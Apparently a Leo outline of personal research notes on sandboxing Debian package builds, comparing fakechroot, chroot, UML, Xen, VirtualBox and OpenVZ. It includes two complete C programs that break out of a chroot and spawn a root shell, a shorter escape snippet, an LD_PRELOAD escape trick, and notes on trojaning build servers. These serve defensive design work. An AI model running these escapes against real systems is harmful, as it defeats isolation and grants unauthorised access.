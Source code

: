 <?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet ekr_test?>
<leo_file>
<leo_header file_format="2" tnodes="0" max_tnode_index="21" clone_windows="0"/>
<globals body_outline_ratio="0.5">
	<global_window_position top="0" left="138" height="933" width="800"/>
	<global_log_window_position top="0" left="0" height="0" width="0"/>
</globals>
<preferences/>
<find_panel_settings/>
<vnodes>
<v t="zaril.20100923035154" a="E"><vh>Isolation research</vh>
<v t="zaril.20100923035154.1" a="EM"><vh>explore fakechroot</vh></v>
<v t="zaril.20100923035154.2" a="M"><vh>research chroot (why only root?)</vh>
<v t="zaril.20100923035154.3"><vh>break out of chroot exploit</vh></v>
<v t="zaril.20100923035154.4"><vh>break out of chroot exploit #2</vh></v>
</v>
<v t="zaril.20100923035316"><vh>security analysis of debian buildd infrastructure</vh></v>
<v t="zaril.20100923035316.1" a="M"><vh>explore openvz</vh></v>
<v t="zaril.20100923035316.2" a="M"><vh>explore vmware</vh></v>
<v t="zaril.20100923035316.3" a="M"><vh>explore xen</vh>
<v t="zaril.20100923035316.4"><vh>explore ubuntu support for xen</vh></v>
</v>
<v t="zaril.20100923035316.5" a="MTV"><vh>explore uml</vh>
<v t="zaril.20100923035316.6"><vh>explore rootstrap</vh></v>
<v t="zaril.20100923035316.7"><vh>explore pbuilder-uml</vh></v>
<v t="zaril.20100923035316.8" a="M"><vh>explore tun/tap</vh></v>
</v>
<v t="zaril.20100923035316.10" a="M"><vh>explore virtualbox</vh></v>
<v t="zaril.20100923035316.11" a="M"><vh>explore dchroot / schroot</vh>
<v t="zaril.20100923035316.12"><vh>time chroot tarball extraction</vh></v>
</v>
<v t="zaril.20100923035316.13" a="E"><vh>explore vserver</vh></v>
<v t="zaril.20100923035316.14"><vh>explore linux capabilities</vh></v>
<v t="zaril.20100923035316.15" a="EM"><vh>explore grsecurity chroot security</vh></v>
</v>
</vnodes>
<tnodes>
<t tx="zaril.20100923035154">@nocolor

* SUMMARY
roadmap
    new
        hardened chroot for everything
    
    old
        everything as root on local machine
        (insecure) suid chroot implementation
        VM-based chroot and pbuilding?
            headless
            debootstrap based
            build environment fabricated with the product?
                +persistence?
        
with regular chroot, pbuilding and fab-spec-install both need virtual machines
    pbuilding can't be done securely inside a chroot as user
        we just need to optimize pbuilder to use deck

    because it needs to install build-depends, as root

    if pbuilding isn't critical, then we can use UML despite its poor performance for the other stuff
        
    unless we turn OFF auto resolution of build dependencies
        and install them by hand

debian build infrastructure vulnerable by design
    binaries built on untrusted systems
        i386 architecture uploaded by developers

    compromising the buildd is easy
        upload a trojaned build-depends
        build-depends breaks out of chroot

more solutions possible with hardware support
    KVM
    
we have to use a virtual machine for fabrication though
    for populating the 

fakeroot + fakechroot isn't a good enough simulation

root inside chroot is equivalent to root outside chroot
    many ways to escape
    if we prevent escape - the chroot isn't powerful enough to fabricate inside
        no mounts
        no sub-chroots

    any package we install could compromise security (dpkg -i)
        postinst scripts could execute exploit
        
        we'll be running the development system with an overlay
            only the kernel will be secure

if we use a virtual machine we can limit exposure 
    fabricate inside a non-persistent environment
        changes go away after fabrication
    sync result back to fakeroot

leading contendors
    Xen

    virtualbox?

        does it run as root?
            if not we could run it as a separate user and setuid to it

    UML

compartmentalization options
    operating system level
        chroot
        openvz
        vserver

    hardware-level
        full virtualization (requires CPU support)
            KVM
                uses modified version of qemu
            Xen
        paravirtualization
            xen
        emulation
            vmware

software
    qemu - insecure and slow
        with kqemu - near native
        qvm86 - near native

    virtualbox - based on qemu
        could share its security problems
        
* SCRATCH
programs to explore
    chroot_safe
        chroot any dynamically linked application in a safe manner?

* IDEAS
secure local chroots with grsecurity
    harden the chroot source (remove devices)

secure chroot
    drop process privileges using capabilities

    build in a vserver environment

    use grsecurity's chroot limitations
        would prevent at least some things from working

use pbuilder (optimized?)
    run pdebuild from sudo

preinstall build dependencies into an chroot environment
    drop privileges (capabilities) to prevent break out of chroot attacks?
        is it possible to do that locally?

run everything as root and rely on a MAC policy to restrict privileges?

side-step grsecurity altogether by using uml...
    integrated into kernel

use UML to create fake root-like environment
    for package building
    for rootstrapping
    calculate approximate size of 

    keep offshoot of UML builder around like a daemon
    invocation of UML transparent?
        uml &lt;uml&gt; [ command ] 
            first boots uml if it doesn't exist
        
    rsync result back to fakeroot system
        make chroot transparent?
        like a form of dchroot?
            uml chroot?

    insight - we only need one uml to do this in
        is there any reason we would need more than one uml session?
            prevent compromise of one release to effect another release?

use XEN instead of UML
    xen is much faster
        almost native performance

    "resume" from an already booted state

just ignore the pool problem and decree that it runs as root?

suid root chroot

pbuilder in fakeroot / fakechroot environment?

use uml?
    thats what rootstrap does

RESOURCE: http://slashdot.org/comments.pl?threshold=5&amp;mode=thread&amp;commentsort=0&amp;op=Change&amp;sid=234745

performance evaluation of xen vs openVZ

RESOURCE: http://en.wikipedia.org/wiki/Comparison_of_virtual_machines


RESOURCE: http://en.wikipedia.org/wiki/Virtualization

emulation
    hardware virtualized - dynamic recompilation

RESOURCE: http://en.wikipedia.org/wiki/Virtual_Machine_Interface

VMI - Virtual Machine Interface

openstandard proposed describing the protocol that guest OSes communicates with the virtual machine


paravirtualization - doesn't simulate hardware - offers a pecial API

    hypervisor / hypercalls
</t>
<t tx="zaril.20100923035154.1">SUMMARY
    won't work with statiatically linked programs (neither does fakeroot)

    it allows chroot() to work without root privileges
        you don't even need to be fakeroot

    symlinks out of the chroot work
        need to be created before chroot

    Segmentation faults if library in chroot is incompatible with library inside chroot       
        workaround: -s --use-system-libs

    for debuild to work you need to use --preserve-env option

    debootstrap fakechroot doesn't actually work
        unless you debootstrap the exact same system

    even fake setuid works (e.g., su user)
        doesn't actually implement fake permissions though
        if I create a file as "bin", its created as "root"
            if I want I can chroot the file to bin
        "bin" can still read /etc/shadow

    try upgrading jaunty to karmic in fakeroot
        cp -ad jaunty karmic
  
        gotcha:
            /proc is copied over (at least it tries)

        result: it failed trying to update the libc
            not very surprising

        
cat fakeroot.sh
    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/bin/X11
    fakeroot -i fake.state -s fake.state fakechroot

        

TODO:
    try debootstrapping jaunty inside jaunty

    explore pbuilder in fakeroot/fakechroot
        read manual - I think it says something about this

    investigate bug report page for fakechroot

    investiage the SVN activity at alioth

    read discussions on debian devel
    
QUESTIONS

Q: are we root?
A: no
---
Q: does it work with fakeroot together?
A: yes

Q: can we get apt to work inside a fakechroot?
A: yes, and debootstrap is actually supposed to work in there
    debootstrap does quite a lot of apt installing and configuring
---
Q: does unsetting LD_PRELOAD break out of the imaginary chroot?
A: yes, programs will see their real root, but your shell will remain fooled

    LD_PRELOAD="" /bin/pwd
--- 

Q: does the fakechroot variant of debootstrap work?
    Q: how does it handle /proc and /dev/pts?
    A: fakechroot supports linking out of `chroot'

    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/bin/X11
    fakeroot -s fakechroot.save fakechroot debootstrap --variant=fakechroot karmic karmic
    

    GOTCHA: trying to chroot into debootstrapped system - segmentationfault

    E: debootstrap sid as a regular user
        fakeroot -s fakechroot.save fakechroot debootstrap --variant=fakechroot sid sid
    R: segmentation fault
    ---
    E: fakechroot -s fakeroot -s sid.save debootstrap --variant=fakechroot sid sid

I: Installing core packages...
W: Failure trying to run: chroot /home/z/tmp/sid dpkg --force-depends --install var/cache/apt/archives/base-files_4.0.1_i386.deb var/cache/apt/archives/base-passwd_3.5.13_i386.deb

        fakechroot -s fakeroot -i sid.save
    BUG: tmp.ci required as a directory, but seen inside fakeroot as a file


fakechroot -s fakeroot -i sid.save chroot /home/z/tmp/sid dpkg --force-depends --install var/cache/apt/archives/base-files_4.0.1_i386.deb var/cache/apt/archives/base-passwd_3.5.13_i386.deb 


E: try fakechroot + cdebootstrap
        
E: does pbuilder work inside fakechroot?


IDEAS:
    even if some packages don't work well with fakechroot
        we can always patch those packages

    debootstrap is being used in fakechroot
    
    

debootstrapping in fakechroot

can we get pbuilder to work inside a fakechroot environment?

RESOURCE: http://www.webservertalk.com/message1840061.html
    fakechroot - anyone using it, should I consider hijacking it?

at least some people are using fakechroot to do installer building as a regular user

RESOURCE: fakechroot(1)

LIMITATIONS
   o   /lib/ld-linux.so.2 is always loaded from real environment. This path is hardcoded by
       linker for all binaries.

   o   Every command executed within fakechroot needs to be linked to the same version of the
       C library as fakechroot itself. If the libraries in chroot are not compatible, try to
       use --use-system-libs option.

   o   You can provide symlinks to the outside. The symlink have to be created before chroot
       is called. It can be useful for accessing the real /proc and /dev directory.

   o   Statically linked binaries doesn't work, especially ldconfig(8), so you have to wrap
       this command with dummy version and i.e. set the dpkg diversion, see: dpkg-divert(8).

   o   ldd(1) also doesn't work. You have to use wrapper. The example wrapper is available at
       scripts/ directory in fakechroot's source package and it is located at
       /usr/share/doc/fakechroot/examples directory.

   o   The full screen applications hangs up if /dev/tty file is not a real device. Link
       /dev/tty file or whole /dev directory to the real one or remove it from fake chroot
       environment.

   o   lckpwdf() and ulckpwdf() are ignored so passwd(1) command should work

   o   Your real uid should exist in /etc/passwd. Create it with adduser --uid realuid
       realuser.

   o   debuild(1) cleans environment. Use --preserve-env option to prevent this behaviour.</t>
<t tx="zaril.20100923035154.2">SUMMARY
    chroot is a dangerous privilege to grant normal users

    chroot wasn't designed as a security mechanism but as a software testing tool



DISCOVERY:  chrsh

Q: why can't we chroot as users?
A: 

1) supposedly to prevent users from changing the contents of trusted files and tricking suid programs into giving permissions


    I.e., after chroot /tmp, /etc/passwd -&gt; /tmp/etc/passwd
    Q: how do you sneak the suid program into the chroot?
    A: with a hardlink
        DISCOVERY: its possible for a regular user to create hardlinks to root suid programs

    solution: disable suid programs in chroot?
2) escape from chroot using chroot
  int fd = open("/", O_RDONLY);        // get jail's / as an fd
  mkdir("testdir");
  chroot("testdir");                   // make nested jail -- key to escape!
  fchdir(fd);                          // back to first jail's /
  for (int i=0; i&lt;10; i++) {
    chdir("..");                       // successively higher ("/../"=="/")
  }
  chroot(".");                         // final "jail" is real /
  execl("/bin/sh", "/bin/sh", NULL);   // unjailed shell

keywords: chroot, user chroot, suid chroot, non-root chroot

RESOURCE: http://www.unixwiz.net/techtips/chroot-practices.html

other ways to break out of chroot
    mknod
        create raw disk device
        create /dev/mem
    hardlinks lead outside the jail (via fchdir)
    ptrace

how to secure chroot
    run in the jail as a non-root user

    no setuid programs inside the chroot

RESOURCE: http://www.bpfh.net/simes/computing/chroot-break.html
    How to break out of a chroot() jail

    includes C demo program for breaking out

coding with chroot in anger
    chdir("/foo/bar");
    chroot("/foo/bar");
    setuid(non zero UID);



RESOURCE: http://lists.freebsd.org/pipermail/freebsd-security/2003-April/000124.html

chroot(2) has no effect on process's current directory
    you could hide a hardlink to the setuid program there

RESOURCE: http://lists.debian.org/debian-security/2001/10/msg00033.html
            </t>
<t tx="zaril.20100923035154.3">001    #include &lt;stdio.h&gt;  
002  	 #include &lt;errno.h&gt;  
003  	 #include &lt;fcntl.h&gt;  
004  	 #include &lt;string.h&gt;  
005  	 #include &lt;unistd.h&gt;  
006  	 #include &lt;sys/stat.h&gt;  
007  	 #include &lt;sys/types.h&gt;  
008  	    
009  	 /*  
010  	 ** You should set NEED_FCHDIR to 1 if the chroot() on your  
011  	 ** system changes the working directory of the calling  
012  	 ** process to the same directory as the process was chroot()ed  
013  	 ** to.  
014  	 **  
015  	 ** It is known that you do not need to set this value if you  
016  	 ** running on Solaris 2.7 and below.  
017  	 **  
018  	 */  
019  	 #define NEED_FCHDIR 0  
020  	    
021  	 #define TEMP_DIR "waterbuffalo"  
022  	    
023  	 /* Break out of a chroot() environment in C */  
024  	    
025  	 int main() {  
026  	   int x;            /* Used to move up a directory tree */  
027  	   int done=0;       /* Are we done yet ? */  
028  	 #ifdef NEED_FCHDIR  
029  	   int dir_fd;       /* File descriptor to directory */  
030  	 #endif  
031  	   struct stat sbuf; /* The stat() buffer */  
032  	    
033  	 /*  
034  	 ** First we create the temporary directory if it doesn't exist  
035  	 */  
036  	   if (stat(TEMP_DIR,&amp;sbuf)&lt;0) {  
037  	     if (errno==ENOENT) {  
038  	       if (mkdir(TEMP_DIR,0755)&lt;0) {  
039  	         fprintf(stderr,"Failed to create %s - %s\n", TEMP_DIR,  
040  	                 strerror(errno));  
041  	         exit(1);  
042  	       }  
043  	     } else {  
044  	       fprintf(stderr,"Failed to stat %s - %s\n", TEMP_DIR,  
045  	               strerror(errno));  
046  	       exit(1);  
047  	     }  
048  	   } else if (!S_ISDIR(sbuf.st_mode)) {  
049  	     fprintf(stderr,"Error - %s is not a directory!\n",TEMP_DIR);  
050  	     exit(1);  
051  	   }  
052  	    
053  	 #ifdef NEED_FCHDIR  
054  	 /*  
055  	 ** Now we open the current working directory  
056  	 **  
057  	 ** Note: Only required if chroot() changes the calling program's  
058  	 **       working directory to the directory given to chroot().  
059  	 **  
060  	 */  
061  	   if ((dir_fd=open(".",O_RDONLY))&lt;0) {  
062  	     fprintf(stderr,"Failed to open "." for reading - %s\n",  
063  	             strerror(errno));  
064  	     exit(1);  
065  	   }  
066  	 #endif  
067  	    
068  	 /*  
069  	 ** Next we chroot() to the temporary directory  
070  	 */  
071  	   if (chroot(TEMP_DIR)&lt;0) {  
072  	     fprintf(stderr,"Failed to chroot to %s - %s\n",TEMP_DIR,  
073  	             strerror(errno));  
074  	     exit(1);  
075  	   }  
076  	    
077  	 #ifdef NEED_FCHDIR  
078  	 /*  
079  	 ** Partially break out of the chroot by doing an fchdir()  
080  	 **  
081  	 ** This only partially breaks out of the chroot() since whilst  
082  	 ** our current working directory is outside of the chroot() jail,  
083  	 ** our root directory is still within it. Thus anything which refers  
084  	 ** to "/" will refer to files under the chroot() point.  
085  	 **  
086  	 ** Note: Only required if chroot() changes the calling program's  
087  	 **       working directory to the directory given to chroot().  
088  	 **  
089  	 */  
090  	   if (fchdir(dir_fd)&lt;0) {  
091  	     fprintf(stderr,"Failed to fchdir - %s\n",  
092  	             strerror(errno));  
093  	     exit(1);  
094  	   }  
095  	   close(dir_fd);  
096  	 #endif  
097  	    
098  	 /*  
099  	 ** Completely break out of the chroot by recursing up the directory  
100  	 ** tree and doing a chroot to the current working directory (which will  
101  	 ** be the real "/" at that point). We just do a chdir("..") lots of  
102  	 ** times (1024 times for luck :). If we hit the real root directory before  
103  	 ** we have finished the loop below it doesn't matter as .. in the root  
104  	 ** directory is the same as . in the root.  
105  	 **  
106  	 ** We do the final break out by doing a chroot(".") which sets the root  
107  	 ** directory to the current working directory - at this point the real  
108  	 ** root directory.  
109  	 */  
110  	   for(x=0;x&lt;1024;x++) {  
111  	     chdir("..");  
112  	   }  
113  	   chroot(".");  
114  	    
115  	 /*  
116  	 ** We're finally out - so exec a shell in interactive mode  
117  	 */  
118  	   if (execl("/bin/sh","-i",NULL)&lt;0) {  
119  	     fprintf(stderr,"Failed to exec - %s\n",strerror(errno));  
120  	     exit(1);  
121  	   }  
122  	 }  </t>
<t tx="zaril.20100923035154.4">#include &lt;stdlib.h&gt;
#include &lt;stdio.h&gt;
#include &lt;errno.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/types.h&gt;

int main(void)
{
    int i;
    
    mkdir("breakout", 0777);
    if (chroot("breakout") &lt; 0)
        perror("chroot failed");

    for (i = 0; i &lt; 100; i++)
        if (chdir("..") &lt; 0)
            perror("chdir failed");
    if (chroot(".") &lt; 0)
        perror("chroot2 failed");

    execl("/bin/bash", "/bin/bash", (char *)NULL);
    perror("system failed");
    
    exit(0);
}
    </t>
<t tx="zaril.20100923035316">buildd uses sbuild
    sbuild installs build-depends as source?

some of the buildds are run by non-DDs that can not be trusted

a binary trojan could be uploaded

then reuploaded to hide / cover tracks

all arch packages are not compiled by buildds - need to be uploaded by the author


RESOURCE: http://lists.debian.org/debian-security/2004/09/msg00014.html

RESOURCE: http://lists.debian.org/debian-security/2004/09/msg00015.html

discusses attacks against debian infrastructure


RESOURCE: http://lists.debian.org/debian-security/2004/09/msg00018.html

sid is not a signed release?

RESOURCE: http://lists.debian.org/debian-security/2004/09/msg00063.html

poisoning buildds

RESOURCE: http://lists.debian.org/debian-security/2004/09/msg00025.html

chroots designed to produce clean builds





</t>
<t tx="zaril.20100923035316.1">advantage
    files can be seen (not in an image)

RESOURCE: http://kerneltrap.org/node/6492

openVZ patchset weighs in at 70K (2MB)

operating system level (need to patch host)

configurable resource groups
    CPU
    memory
    disk quota

different project from vserver

doesn't run a separate kernel in each VPS

don't need to specify memory for each virtual machine / disk device

xen is superior in performance and stability

git.openviz.org


RESOURCE: http://community.livejournal.com/openvz/tag/openvz

has been merged into SLES
</t>
<t tx="zaril.20100923035316.2">RESOURCE: http://en.wikipedia.org/wiki/VMware

virtual processing based on dynamic recompilation

80% speed of virtual guest

overhead 3-6% for computationally intensive applications

need vmware tools installed in guest for optimal performance

RESOURCE: http://www.vmware.com/community/message.jspa?messageID=261115

how good is the quality of the isolation?

NSA considers vm isolation almost as good as air gap?

RESOURCE: http://www.thisishull.net/showthread.php?t=271743&amp;page=2

vmware guests broken into from the outside

RESOURCE: http://www.eweek.com/article2/0,1759,1904647,00.asp

at least one known exploit - nat code in vmware

    </t>
<t tx="zaril.20100923035316.3">RESOURCE: http://www.cl.cam.ac.uk/research/srg/netos/xen/

official site of the research group that created xen

RESOURCE: http://www.cl.cam.ac.uk/research/srg/netos/xen/performance.html

performance analysis (very impressive)

RESOURCE http://blog.orebokech.com/2010/05/xen-security-or-lack-thereof.html

xen secure as long as hardware virtualization no used?

xen uses AEMU's based emulator to provide emulated device?

RESOURCE: http://gentoo-wiki.com/HOWTO_Xen_and_Gentoo

feature
    *  Virtual machines with performance close to native hardware.
    * Live migration of running virtual machines between physical hosts.
    * Up to 32 virtual CPUs per guest virtual machine, with VCPU hotplug.
    * x86/32, x86/32 with PAE, and x86/64 platform support.
    * Intel Virtualization Technology (VT-x) for unmodified guest operating systems (including Microsoft Windows).
    * AMD Virtualization Technology (SVM aka Pacifica) on AM2 and F stepping Opterons (2009H2)
    * Excellent hardware support (supports almost all Linux device drivers). 

[edit] 

RESOURCE: http://www.infoworld.com/article/05/06/28/HNxensecure_1.html

XenSE - security enhanced version of XEN?

30K LOC in Xen?

RESOURE: http://en.wikipedia.org/wiki/Xen

first public release of Xen made in 2003

RESOURCE: http://gentoo-wiki.com/HOWTO_Xen_and_Gentoo

different kernels for dom0 and domU

RESOURCE: http://jailtime.org/

prefabricated virtual filesystems for Xen

RESOURCE: http://wiki.xensource.com/xenwiki/XenFaq#head-0a539c0b540b1e563d5b0f39dad4eb18034f8cee

no support for ACPI/APM
    reduced battery support and no suspend/resume

</t>
<t tx="zaril.20100923035316.4">RESOURCE: https://wiki.ubuntu.com/Xen

ideal goal - ship with xen enabled kernel by default

bandwidth between virtual machines - nearly infinite?



RESOURCE: https://wiki.ubuntu.com/XenEnabledKernel

why xen wasn't included in edgy by default

xen doesn't play nicely with nvidia kernel

probably won't be our default kernel

userspace tools
    xen-tools

RESOURCE: https://wiki.ubuntu.com/XenEdgy

xen didn't make it into edgy as the default

    but some support was included

restrictions
    hardware support not as good (linux-restricted-modules not supported)

    no security support

    packages in universe

stock kernel patched with xen guest support

    development kernel won't include ubuntu changes

RESOURCE: https://wiki.ubuntu.com/XenOnJaunty?highlight=%28xen%29

enable universe and install
    ubuntu-xen-desktop
    ubuntu-xen-server

RESOURCE: https://help.ubuntu.com/community/XenVirtualMachine

how to install xen on ubuntu

can install debian via debootstraping to loopback

VMs seem to be configured by the admin

same kernel for dom0 and the other domains





    </t>
<t tx="zaril.20100923035316.5">TODO:
    run debian inside UML?
        there's a tutorial on running debian inside UML
    setup networking so that uml has access to my apt-proxy
    read HOWTO

SUMMARY
    poor performance - poor momentum

    no patching required to host kernel
        but performance is much slower
            with skas its within 30% of host

    runs entirely as a regular user process
    kernel is compiled to a special architecture (ARCH=um)
    pbuilder supports it as a variant
    doesn't require *any* special privileges 
    utilities: usermode-utils (ebuild)
    debian uml packages have the best documentation

    ubuntu blacklisted UML back in the kernel 2.4 days
        today UML is in the mainline kernel

        still blacklisted with comment from ben collins: we do our own kernel
            its just an application though

Q: do we have to have an image file?
A: for the root yes, but not necessarily for all files (you could use humfs)

Q: is it possible to create a growable image file?

    IDEA: minimal root system that is overlayed with a host based filesystem?



DISCOVERIES
    pbuilder-uml

* RESOURCE: http://user-mode-linux.sourceforge.net/
    kernel image for testing
    
    filesystem image for testing

./linux-2.6.19-rc5 ubda=FedoraCore5-x86-root_fs mem=128M

* RESOURCE: http://user-mode-linux.sourceforge.net/source.html
    building UML from source

make defconfig ARCH=um
make menuconfig ARCH=um
make mrproper ARCH=um

make ARCH=um

result
    UML binary called linux
    if you remove debugging symbols - shrinks UML binary to size of a native kernel

RESOURCE: http://en.wikipedia.org/wiki/User-mode_Linux

as of 2.6+ integrated into main kernel source

doesn't require host kernel patching

lower performance compared to Xen and OpenVZ?

* RESOURCE: http://searchenterpriselinux.techtarget.com/tip/0,289483,sid39_gci1197366,00.html

possible to put a UML inside a chroot jail

supports tty logging

hppfs
    allows contents of UML /proc to be selectively overridden from the host?

* RESOURCE: http://user-mode-linux.sourceforge.net/hostfs.html
    explains how to access the host file's

    hostfs - direct translation of host filesystem to UML
        permission problems

    humfs - more sophisticated (fakeroot) like filesystem access

* RESOURCE: http://user-mode-linux.sourceforge.net/configure.html

how to configure the virtual machine's virtual hardware

consoles (common cases)

    configuring common cases
        con0=fd:0,fd:1 con=pts
        
        con0=fd:0,fd:1 con1=null con=pts
        
        ssl=xterm           attach serial lines to xterm
        
        ssl=port:9000       attach serial line to host's localhost 9000

ubdb=swap

ubda=cow,root_fs

ubdb=/dev/cdrom

ubdb=foo.tar

* RESOURCE: http://www.stearns.org/slartibartfast/uml-coop.html

running the virtual machine attached to screen
    screen -S linda -d -m su - linda -c "cd /homr/linda; linux"

    screen -S linda -R

* EXPLORE: usermode-utilities (ebuild)

/usr/bin/uml_watchdog
/usr/bin/uml_mconsole
/usr/bin/jailtest
/usr/bin/uml_moo
/usr/bin/uml_net
/usr/bin/tunctl
/usr/bin/uml_switch
/usr/bin/uml_mkcow
/usr/lib/uml/port-helper
/usr/share/doc/usermode-utilities-20040406-r1/COPYING.gz

* RESOURCE: https://wiki.ubuntu.com/UserModeLinuxSpec
    UML support is planned - they just haven't gotten around to it yet
        I think Karmic may support UML

* RESOURCE: file:///home/z/docs/uml/HOWTO_User_Mode_Linux.html
Gentoo HOWTO 

skas patch increases performance
    but you can do without it


* RESOURCE: file:///home/z/docs/uml/user-mode-linux.sourceforge.net/old/skas.html

traditional solution - tracing thread mode runs alongside UML
    the kernel runs inside the same memory space as processes

skas - separate kernel address space

speedup - eliminating signal delivery that used to happen for every UML system call

eliminates honeypot fingerprinting

how to use SKAS
    CONFIG_MODE_SKAS should be enabled
        detects host support and uses it, otherwise, falls back to tt version
            
            Checking for the skas3 patch in the host...found
            Checking for /proc/mm...found

    performance
        kernel build - twice as fast with skas
            within 30% of host performance

is skas running on my Gentoo
    no



</t>
<t tx="zaril.20100923035316.6">* SUMMARY
create a filesystem image 
available as a Gentoo ebuild
    depends on vanilla sources
        for UML?

python program
    originally written in 2002 by matt zimmerman

reads /etc/rootstrap/rootstrap.conf first
    then rootstrap.conf in CWD

filesystem type can be set
    fstype=ext2

the `modules' seem to be executed directly from init

* QUESTIONS
doesn't need root access?

* RESOURCE: rootstrap(1)

* RESOURCE: http://people.debian.org/~torsten/rootstrap.html
    using rootstrap for package checking</t>
<t tx="zaril.20100923035316.7">uses rootstrap to create UML image

IDEAS:
    keep UML environment around
</t>
<t tx="zaril.20100923035316.8">http://en.wikipedia.org/wiki/TUN/TAP

In computer networking, TUN and TAP are virtual network kernel drivers. They implement network devices that are supported entirely in software, which is different from ordinary network devices that are backed up by hardware network adapters.

TAP (as in network TAP) simulates an Ethernet device and it operates with Layer 2 packets such as Ethernet frames. TUN (as in network TUNnel) simulates a network layer device and it operates with Layer 3 packets such as IP packets. TAP is used to create a Network bridge, while TUN is used with Routing.

Packets sent by an operating system via a TUN/TAP device are delivered to a user-space program that attaches itself to the device. A user-space program may also pass packets into a TUN/TAP device. In this case TUN/TAP device delivers (or "injects") these packets to the operating system network stack thus emulating their reception from an external source.</t>
<t tx="zaril.20100923035316.10">/etc/init.d/vboxdrv
/etc/init.d/vboxnet

Q: does it run without root privileges?
A:
    no suid binaries
        on the other hand - it needs a kernel module
---
Q: is there a head-less mode?
    Q: can we attach to the head later? (for debugging?)
A: yes, headless mode with VRDP. attach with RDP.
---
Q: can we create non-persistent branches programatically?
A:
    any configuration is possible via VBoxManage
---
Q: can we create the disk image file programmatically?
A:
    yes, you can convert from a dd image
    AND you can create a disk image and install to it
---
Q: can we mount the disk from the host?
A:
    to the 

Q: does the virtual disk file grow on demand?

SUMMARY
    installed by downloading the generic linux package and running it

    full screen mode works better than in vmware

    dsl loaded extremely quickly

    RIGHT CTRL - host key

    disk images grow dynamically
        special virtualbox format

    bootsplash mode seems to work better in virtualbox than in vmware
        switching from X to console actually works (unlike in vmware)
            RIGHT CTRL + F1

    supports write-through mode
        not included in snapshots (remain unaltered when machine reverted)

    the NAT's address doesn't show up as a network interface
        the vm behaves just like a regular process

        only UDP and TCP work
        ping doesn't work
            you need root privileges for ping (VirtualBox runs as a user app)
        
    VirtualBox high-level GUI

    VBoxManage cli interface

    each VM in its own window
        paused machines grey out

    virtualbox supports vmware's disk format?

    VirtualBox supports seamless windows 
        with guest additions installed in Windows

    supports immutable images
        different VMs send 

    write-through disks state not saved in suspension

    vboxmanage convertdd &lt;thefile&gt;.img &lt;thefile&gt;.vdi    

IDEAS
    we could just install debian/ubuntu to the system (normal way via ISO)
    or better yet, we could use turnkey build system
        persistent only to harddrive

RESOURCE: UserManual.pdf v1.5

features
    virtual ACPI support
    I/O APIC support
    snapshots
    access via VRDP (virtualbhox Remote Desktop Protocol)
        connect local USB dvices to virtual machine running remotely

installs a kernel module
    used for physical memory allocation
    gain control of processor for guest system execution


user must be member of vboxusers

interfaces
    VirtualBox
    VBoxSDL
    VBoxManage

default debian settings
